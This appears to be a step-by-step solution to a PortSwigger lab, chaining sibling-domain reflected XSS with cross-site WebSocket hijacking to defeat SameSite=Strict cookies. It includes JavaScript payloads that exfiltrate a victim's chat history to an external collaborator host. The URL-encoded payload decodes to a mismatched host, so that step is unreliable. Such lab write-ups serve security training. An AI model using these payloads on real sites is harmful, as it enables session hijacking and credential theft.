

[Source](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)
## Task
The live chat feature in this lab is vulnerable to `WebSocket` cross-site hijacking (`CSWSH`) attacks. To solve the task, we need to log in to the victim's account.
To do this, we use the provided exploit server to perform a `CSWSH` attack and dump the victim's chat history to the default `Burp Collaborator` server. The chat history contains the login credentials in plain text.
If you haven't already, we recommend that you first read our `WebSocket` vulnerabilities topic before attempting this task.
## Solution
Go to the task site


Go to `Live chat`


Send a message to the chat and intercept the request via `Burp Suite`


Go to `HTTP history` and look for a `GET` request with `/chat`


Note that the request does not contain any unpredictable tokens, so it may be vulnerable to CSWSH if we can bypass the `SameSite cookie` restrictions. Refresh the chat page.
Go to the tab `Proxy > WebSockets history`. We see that when refreshing the page, the browser sends the message `READY` to the server. In response, the server sends the entire chat history.





Go to `Burp Collaborator` and click `Copy to clipboard`


On the site, go to `Exploit Server` and paste the script into the `Body` field based on the following template demonstrating the `Proof of Concept` for CSWSH:

```HTML
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```


Save the exploit and view it ourselves.
Go back to `Burp Suite`, open the `Collaborator` tab again and click `Poll now`. We see that we received an HTTP interaction indicating that we opened a new `live chat` connection to the target site.


Note that although we confirmed the CSWSH vulnerability, we were only able to dump the chat history for the new session, which is not very useful.
Go to the `Proxy > HTTP history` tab and look for the `WebSocket` request initiated by our script. Most likely, this is the last `GET /chat` request.


Notice that our session cookie is missing from the request. We look at the response and notice that the site explicitly sets the `SameSite=Strict` attribute for session `cookies`. This prevents the browser from including these `cookies` in cross-site requests.
In `Burp Suite`, we examine `Proxy history` and notice that responses to requests for resources (such as scripts and images) contain the `Access-Control-Allow-Origin` header, pointing to the related domain `cms-YOUR-LAB-ID.web-security-academy.net`.


We follow this link. We see an additional login form.
```URL
cms-YOUR-LAB-ID.web-security-academy.net
```


We send some random credentials and notice that the entered username is reflected in the error message `Invalid username`.


We try to inject an XSS payload via the username parameter, for example:
```HTML
<script>alert(document.cookie)</script>
```


We see that `alert()` is triggered, confirming the vulnerability in the form of reflected XSS.
Send a `POST /login` request with an XSS payload to `Burp Repeater`.

In `Burp Repeater`, right-click and select `Change request method` to change the method to `GET`. Verify that the response remains the same.


Right-click the request again and select `Copy URL`. Navigate to this link in the browser and verify that we can still trigger the XSS. Since this sibling domain is considered part of the same site, we can exploit the XSS vulnerability to launch a CSWSH attack without being blocked by `SameSite`.


Recreate the CSWSH script we tested on the exploit server:
```HTML
<script>
    var ws = new WebSocket('wss://0a35001f037873238299de4900b000c3.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://2ilk0ki0mc0qa4z5ys5qnblev51wpodd.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
Encode the entire script in URL format (URL encode).


```URL
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%33%35%30%30%31%66%30%33%37%38%37%33%32%33%38%32%39%39%64%65%34%39%30%30%62%30%30%30%63%33%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%6c%79%6e%33%67%33%79%6a%32%76%67%39%71%6e%66%6f%65%62%6c%39%33%75%31%78%62%6f%68%66%35%61%74%7a%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```


Then we go back to the exploit server and create a script that will force the visitor's browser to send the same GET request that we just tested, substituting the encoded CSWSH payload as the value of the `username` parameter. One option:
```HTML
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```


Click `Store` and `Deliver exploit to victim`. Then click `Access log`


We see the victim's log lines. Copy them, cut them, leaving only the encoded text and decode it.


Authorize as user `carlos`


